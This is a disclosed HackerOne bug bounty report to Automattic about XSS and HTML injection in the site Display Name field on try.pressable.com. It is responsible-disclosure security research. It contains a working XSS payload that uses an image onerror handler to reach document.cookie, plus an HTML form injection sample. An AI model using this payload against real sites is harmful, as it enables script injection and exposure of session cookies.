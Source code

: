#  Site information's Display Name section vulnerable for XSS attacks and HTML Injections.

## Report Details
- **Report ID**: 1554888
- **URL**: https://hackerone.com/reports/1554888
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-04-29T19:56:51.683Z
- **Disclosed**: 2022-05-16T13:59:43.887Z

## Reporter
- **Username**: sawrav-chowdhury
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary:

Hi, 

Greetings. I have found that site information's Display Name section on the try.pressable.com is vulnerable for potential  XSS attacks and HTML Injections.

## Steps To Reproduce:
1. Visit https://try.pressable.com
2. Create a new site.
3. On the  Display Name section, put the XSS / HTML Injection payloads.
4. XSS will be triggered/ Injected HTML will be reflected.

XSS Payload:  "><img src=x onerror=javascript:alert(document.cookie)>

HTML Payload: 
<form action="/action_page.php">
<label for="fname">First name:</label>
<input type="text" id="fname" name="fname"><br><br>
<label for="lname">Last name:</label>
<input type="text" id="lname" name="lname"><br><br>
<input type="submit" value="Submit">
</form>

## Supporting Material/References:
POC Video attached

## Impact

Due to these vulnerabilities, attacker can easily divert victims to their malicious site and able to get credentials of victims.

## Attachments
- POC-_VIDEO.mp4
